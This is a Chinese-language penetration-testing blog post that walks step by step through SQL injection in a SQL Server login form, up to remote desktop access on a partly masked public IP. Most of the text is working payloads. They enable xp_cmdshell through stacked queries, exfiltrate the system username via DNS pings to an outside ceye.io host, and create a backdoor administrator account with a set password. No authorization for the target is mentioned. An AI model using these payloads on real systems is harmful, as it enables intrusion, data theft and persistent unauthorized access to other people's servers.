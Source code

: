 ```yaml
---
date: 2019-06-25 17:01:53
title: 从 SQL Server 注入到 远程连接桌面
description: 从 SQL Server 注入到 远程连接桌面
categories:
  - Pentest
tags:
  - pentest
---
```


### 0x00 目标情况
* 只有一个登录框

### 0x01 发现注入
简单看了下登陆框，可以爆破用户名

![50](/img/post/Xnip2019-06-25_09-42-33.png)
![50](/img/post/Xnip2019-06-25_09-43-33.png)

加单引号后报错，试了试 and 1=1 确实存在注入

![60](/img/post/Xnip2019-06-25_09-45-03.png)
![50](/img/post/Xnip2019-06-25_09-46-06.png)

### 0x01 进一步测试
尝试得到数据版本: ```admin' and @@version=1--```
![60](/img/post/Xnip2019-06-25_09-49-45.png)

抓包 sqlmap 跑了下发现不行: ```sqlmap -r 1.txt --risk 3 --level 3 --dbms "Microsoft SQL Server" --second-order "http://123.xxx.xxx.180:2001/error.aspx"```

返回: all tested parameters appear to be not injectable，跑不出来，只能手工了

看下能不能多语句执行: ```admin';select convert(int,(select user));--```

结果发现可以执行成功，能进行多语句执行
![60](/img/post/Xnip2019-06-25_09-56-08.png)


### 0x02 尝试多语句执行添加用户
* 查看是否有 xp_cmdshell  
Payload：```admin';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5';--```
![60](/img/post/Xnip2019-06-25_10-05-25.png)

* 开启 xp_cmdshell  
Payload：```admin';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--```
![50](/img/post/Xnip2019-06-25_10-07-41.png)

* 查看 whoami  
Payload：```admin';exec master..xp_cmdshell 'ping %USERNAME%.vxxxx9.ceye.io';--```
![50](/img/post/Xnip2019-06-25_10-10-38.png)
在 dnslog 可以看到是 SYSTEM 权限，可以直接添加用户
![60](/img/post/Xnip2019-06-25_10-16-37.png)

* 添加用户  
看了下端口，3389开着

```bash
➜  sudo nmap -sS -Pn -n -p3389 123.xxx.xxx.180
Password:
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-25 09:30 CST
Nmap scan report for 123.xxx.xxx.180
Host is up.

PORT     STATE    SERVICE
3389/tcp open     ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.07 seconds
```

直接添加用户: ```admin';exec master..xp_cmdshell 'net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes'--```，尝试登陆
![60](/img/post/Xnip2019-06-25_10-22-58.png)











